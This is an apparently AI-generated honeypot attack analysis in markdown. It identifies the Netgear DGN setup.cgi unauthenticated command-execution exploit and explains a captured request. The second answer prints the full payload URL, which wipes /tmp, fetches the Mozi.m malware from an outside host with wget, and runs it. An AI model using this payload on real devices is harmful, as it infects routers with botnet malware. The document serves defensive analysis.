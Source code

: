 
# Run Steps: Attack: 801f77ad815592be4a10b2c6b624d2f93117eb141fb2fc3cef008cce6c496ade
**Assistant ID:** `asst_R5O9vhLKONwNlqmmxbMYugLo`

**Thread ID:** `thread_VSSsP1OBeEuwDPHVRZ7UYJTi`


<details>
<summary>
<h3>System Prompt</h3>
</summary>

> `Your role is to answer questions about an attack on a Linux honeypot. You will analyze the commands executed, uploaded/downloaded files, HTTP requests, sessionsand other data logged during the attack to understand the methods and goals of the attacker.You will also analyze OSINT data gathered about the attacking IP(s) including: geolocation, open ports, running services, threatfeed reports and reports of known malware associated with the IP(s) to get additional context on the attack and enhance your analysis. Your answers will be used in a GitHub .md file so you should use markdown syntax to format your output. Use the available functions to request relevant information to thoroughly answer each question. You should use multiple function calls to analyze the data returned by previous function calls and to get any additional data you need to answer each question as accurately as possible. For example if you see that the attacker downloaded malware in one of the commands executed, you should use the get_attack_attrs function with the arguement 'uniq_malware' to get a list of unique malware_ids associated with the attack, then use get_malware_attrs to analyze the malware, and the query_ functions to get additional OSINT data about the malware and its source. IMPORTANT: When using get_attack_attrs use the uniq_<attr> modifier first and only get all values if necessary after analyzing the unique values. For context that the honeypot system has the following open ports: Port 8080: Web server running Apache httpd 3.2.3 and WordPress 5.6.7  Its internal IP address is: 172.31.5.68 and its external IP address is: 54.67.87.80. Use the code_interpreter tool to enhance your analysis. For example if you find an encoded string in the http_requests, commands, or malware, you should use the code_interpreter tool to decode it, then analyze the decoded result in context when answering questions.`

</details>

---


## Prompt: What exploit was used?

**Run ID:** `run_sekq9KphgPAJ7kQ54fKGJAs0`

<details>
<summary>
<h3>Answer</h3>
</summary>

The attacker used the "Unauthenticated command execution on Netgear DGN devices" exploit. This exploit is known to leverage a vulnerability in the `setup.cgi` script in certain Netgear DGN devices allowing arbitrary command execution by unauthorized users. The specific exploit details based on the ExploitDB database is as follows:

- **Exploit ID**: 25978
- **Title**: Unauthenticated command execution on Netgear DGN devices
- **Discovery Date**: 01/05/2013
- **Release Date**: 31/05/2013
- **Credits**: Roberto Paleari

The attacker utilizes this exploit via an HTTP request to manipulate the `setup.cgi` script on the compromised system, executing commands to clear a temporary directory and download and execute a malicious file.
</details>

---


## Prompt: What is the source code of the exploit used?

**Run ID:** `run_q91saGXA8Ire88zYCMB1ZivN`

<details>
<summary>
<h3>Answer</h3>
</summary>

The specific source code of the exploit used in this attack is not explicitly provided in the analysis. However, the exploitation is carried out by crafting a specific HTTP GET request that takes advantage of a vulnerability in `setup.cgi` script found on certain vulnerable Netgear devices. This allows the attacker to remotely execute arbitrary commands.

An example of a crafted HTTP GET request used in this attack is as follows:

```
http://<target-ip-address>/setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1
```

In this crafted request:

- `next_file=netgear.cfg` refers to the next file to process.
- `todo=syscmd` specifies system command is to be executed.
- `cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear` is the actual command being executed. It first deletes (`rm`) all files in the `/tmp` directory, then downloads (`wget`) a file from an external source and saves it as `/tmp/netgear`, and finally runs the downloaded script (`sh`).
- `curpath=/&currentsetting.htm=1` sets the current path for command execution.

In this instance, the attacker did not directly create a source code exploit but crafted an HTTP GET request to exploit a known vulnerability.
</details>

---

